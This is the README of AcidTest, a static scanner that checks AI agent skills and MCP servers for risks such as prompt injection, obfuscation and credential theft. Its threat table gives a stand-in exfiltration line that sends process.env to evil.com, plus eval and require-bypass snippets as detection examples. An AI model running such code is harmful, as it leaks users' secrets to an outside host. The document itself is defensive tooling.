

# AcidTest

<p align="center">
  <strong>Security scanner for AI agent skills and MCP servers. Scan before you install.</strong>
</p>

<p align="center">
  <a href="https://www.npmjs.com/package/acidtest">
    
  </a>
  <a href="https://github.com/currentlycurrently/acidtest/actions">
    
  </a>
  <a href="https://github.com/currentlycurrently/acidtest">
    
  </a>
  <a href="https://www.npmjs.com/package/acidtest">
    
  </a>
  <a href="./LICENSE">
    
  </a>
</p>

---

<p align="center">
  
</p>

## The Problem

The AI agent ecosystem is growing rapidly, but security lags behind adoption:

- **No centralized vetting**: Unlike mobile app stores, there's no security review before skills are published
- **Broad permissions**: Skills can request file system access, environment variables, and network calls
- **Supply chain risks**: Dependencies and third-party code run with full skill permissions
- **Prompt injection**: Malicious skills can manipulate AI behavior through carefully crafted prompts
- **Credential harvesting**: Skills requesting API keys and tokens without proper justification

Recent ecosystem incidents highlight these risks:
- Mass uploads of malicious skills to public marketplaces
- Skills with undeclared network calls exfiltrating data
- Obfuscated code hiding malicious behavior
- Permission escalation through dynamic imports

**AcidTest provides security scanning before installation**, helping you identify risks before they reach your system.

## Quick Start
```bash
# See AcidTest in action
npx acidtest demo

# Scan an AgentSkills skill
npx acidtest scan ./my-skill

# Scan an MCP server
npx acidtest scan ./my-mcp-server
```

No API keys. No configuration. No Python.

## Example Output
```
AcidTest v0.7.0

Scanning: proactive-agent
Source:   test-skills/proactive-agent-1-2-4-1

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

TRUST SCORE: 72/100 ███████░░░ WARN

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

FINDINGS

  ✖ CRITICAL instruction-override
    SKILL.md:170
    Attempts to override agent instructions
    3 matches found

  ○ LOW      No declared permissions
    SKILL.md
    Skill declares no permissions (bins, env, or allowed-tools)
    Legitimate skills typically declare at least one permission

━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

RECOMMENDATION: Do not install. Prompt injection attempt detected.
```

## What AcidTest Catches

| Threat | Example | Detection Method |
|--------|---------|------------------|
| **Arbitrary Code Execution** | `eval(userInput)`, `new Function()` | AST analysis + pattern matching |
| **Data Exfiltration** | `fetch('evil.com', {body: process.env})` | Cross-reference layer |
| **Hardcoded Credentials** | `apiKey = "sk_live_..."` | Pattern matching + entropy |
| **Prompt Injection** | Markdown instruction override | Injection detection layer |
| **Obfuscation** | Base64/hex encoded payloads | Shannon entropy analysis |
| **Supply Chain Attacks** | `require('child_' + 'process')` | AST bypass detection |
| **Permission Escalation** | Undeclared network/filesystem access | Permission audit + crossref |

**What AcidTest Doesn't Catch:**
- Zero-day exploits in Node.js itself
- Vulnerabilities in npm dependencies (use `npm audit` for this)
- Runtime behavior outside static analysis scope
- Sophisticated polymorphic code or advanced VM-level evasion

See [METHODOLOGY.md](./METHODOLOGY.md) for full transparency on capabilities and limitations (~85-90% detection rate).

## How It Works

AcidTest runs four analysis layers:
1. **Permission Audit**: Analyzes declared permissions (bins, env, tools)
2. **Prompt Injection Scan**: Detects instruction override attempts (AgentSkills)
3. **Code Analysis**: AST-based analysis + Shannon entropy detection for obfuscation
4. **Cross-Reference**: Catches code behavior not matching declared permissions

**Advanced Features:**
- Entropy analysis detects base64/hex encoding and obfuscated strings
- Pattern-based detection with 48 security patterns
- CI/CD integration via GitHub Actions and pre-commit hooks

Works with both SKILL.md (AgentSkills) and MCP manifests (mcp.json, server.json, package.json).

## Why AcidTest?

| Feature | AcidTest | npm audit | Manual Review | Sandboxing |
|---------|----------|-----------|---------------|------------|
| **Speed** | ⚡ <2 seconds | ⚡ <1 second | 🐌 Hours | ⚡ Seconds |
| **Agent-Specific Threats** | ✅ Yes | ❌ No | ✅ Yes | ⚠️ Partial |
| **Code Analysis** | ✅ AST + Regex | ❌ Manifest only | ✅ Full | ❌ Runtime only |
| **Prompt Injection** | ✅ Detects | ❌ N/A | ✅ Detects | ❌ N/A |
| **Dependency Vulns** | ❌ No | ✅ Yes | ⚠️ Partial | ❌ No |
| **Setup Required** | 🟢 Zero config | 🟢 Built-in | 🔴 Expert knowledge | 🟡 Complex |
| **Cost** | 🟢 Free | 🟢 Free | 🔴 Expensive | 🟡 Infrastructure |
| **Pre-Installation** | ✅ Yes | ✅ Yes | ✅ Yes | ❌ Post-install |

**Defense-in-depth approach:** Use AcidTest **with** `npm audit` and sandboxing for comprehensive security.

## Install
```bash
npm install -g acidtest
```

Or use without installing:
```bash
npx acidtest scan ./path-to-skill
```

## Usage

### CLI Commands
```bash
# See AcidTest in action with demo fixtures
acidtest demo

# Scan an AgentSkills skill
acidtest scan ./my-skill
acidtest scan ./my-skill/SKILL.md

# Scan an MCP server
acidtest scan ./my-mcp-server          # Auto-detects mcp.json, server.json, etc.
acidtest scan ./server/mcp.json        # Direct manifest path

# Scan all skills/servers in a directory
acidtest scan-all ./directory

# Watch mode - re-scan on file changes
acidtest scan ./my-skill --watch
acidtest scan ./my-skill -w            # Short form

# Show remediation suggestions
acidtest scan ./my-skill --fix

# Combine flags
acidtest scan ./my-skill --watch --fix

# JSON output for programmatic use
acidtest scan ./my-skill --json

# Start as MCP server (for AI agents)
acidtest serve
```

### CLI Options

- `--watch`, `-w` - Watch for file changes and automatically re-scan
  - Keyboard controls: `q` to quit, `r` to force re-scan, `c` to clear terminal
  - Use `--no-clear` to preserve terminal history between scans
- `--fix` - Show actionable remediation suggestions for each finding
- `--json` - Output results as JSON for programmatic use
- `--no-clear` - Don't clear terminal between scans (watch mode only)

### Configuration File

Create a `.acidtest.json` file in your skill directory to customize scanning behavior:

```json
{
  "ignore": {
    "patterns": ["di-008"],
    "categories": ["obfuscation"],
    "files": ["vendor/**", "*.min.js"]
  },
  "thresholds": {
    "minScore": 80,
    "failOn": ["CRITICAL", "HIGH"]
  },
  "output": {
    "format": "detailed",
    "showRemediation": true,
    "colors": true
  }
}
```

**Configuration Options:**

- `ignore.patterns` - Array of pattern IDs to suppress (e.g., `["di-001", "cp-006"]`)
- `ignore.categories` - Array of categories to suppress (e.g., `["obfuscation"]`)
- `ignore.files` - Array of glob patterns for files to skip scanning
- `thresholds.minScore` - Minimum passing score (0-100). Exit with error if score is below this
- `thresholds.failOn` - Array of severities that cause scan to fail (e.g., `["CRITICAL", "HIGH"]`)
- `output.format` - Output format: `"detailed"`, `"compact"`, or `"json"`
- `output.showRemediation` - Show remediation suggestions (boolean)
- `output.colors` - Enable/disable colored output (boolean)

CLI flags override config file settings.

### Use as MCP Server

AcidTest can run as an MCP (Model Context Protocol) server, allowing AI agents like Claude to scan skills and MCP servers before installation.

#### Claude Desktop Configuration

Add to your `claude_desktop_config.json`:

```json
{
  "mcpServers": {
    "acidtest": {
      "command": "npx",
      "args": ["-y", "acidtest", "serve"]
    }
  }
}
```

Or if installed globally:

```json
{
  "mcpServers": {
    "acidtest": {
      "command": "acidtest",
      "args": ["serve"]
    }
  }
}
```

#### Available MCP Tools

- **`scan_skill`**: Scan a single skill or MCP server
  - Input: `{ "path": "/path/to/skill" }`
  - Returns: Full scan result with trust score and findings

- **`scan_all`**: Scan all skills/servers in a directory
  - Input: `{ "directory": "/path/to/directory" }`
  - Returns: Array of scan results

Once configured, Claude can scan skills before installation:
```
User: "Can you scan this MCP server before I install it?"
Claude: [Uses acidtest scan_skill tool to analyze the server]
```

### Use in CI/CD

Automate security scanning in your GitHub Actions workflows.

#### Quick Setup

Copy this workflow to `.github/workflows/acidtest.yml` in your skill repository:

```yaml
name: Security Scan

on: [pull_request, push]

jobs:
  acidtest:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: npx acidtest@latest scan . --json > results.json
      - run: |
          STATUS=$(jq -r '.status' results.json)
          if [ "$STATUS" = "FAIL" ] || [ "$STATUS" = "DANGER" ]; then
            echo "❌ Security scan failed"
            exit 1
          fi
```

See [`.github/workflows/acidtest-template.yml`](.github/workflows/acidtest-template.yml) for a production-ready template, or [`.github/workflows/acidtest-example.yml`](.github/workflows/acidtest-example.yml) for advanced examples including:
- Failure thresholds
- Bulk scanning
- PR comments
- Artifact uploads

#### Pre-Commit Hook

Catch issues before committing:

```bash
# Install pre-commit hook
curl -o .git/hooks/pre-commit https://raw.githubusercontent.com/currentlycurrently/acidtest/main/hooks/pre-commit
chmod +x .git/hooks/pre-commit

# Now every commit runs AcidTest automatically
git commit -m "Add new feature"  # Scans before committing
```

See [`hooks/README.md`](hooks/README.md) for installation options and configuration.

## Scoring

Starts at 100, deducts by severity (CRITICAL: -25, HIGH: -15, MEDIUM: -8, LOW: -3). Score 80+ is PASS, 50-79 is WARN, 20-49 is FAIL, below 20 is DANGER.

<!--
## Testimonials

TODO: Add testimonials from dogfooding campaign (Task 1 - Phase 2)

> "AcidTest found 3 CRITICAL vulnerabilities in my skill that I completely missed. Required tool for any AI developer."
> — [Developer Name], Maintainer of [Skill Name]

> "We integrated AcidTest into our CI/CD pipeline. Caught a backdoor in a community contribution before it hit production."
> — [Company Name]
-->

## Contributing

Detection patterns are JSON files in `src/patterns/`. Add new patterns and submit a PR.

## License

MIT

## Documentation

- [Technical Specification](./BUILD-SPEC.md) - Architecture and implementation details
- [Roadmap](./ROADMAP.md) - Planned features and enhancements
- [Changelog](./CHANGELOG.md) - Version history

## Links

- Issues: https://github.com/currentlycurrently/acidtest/issues
- Website: https://acidtest.dev
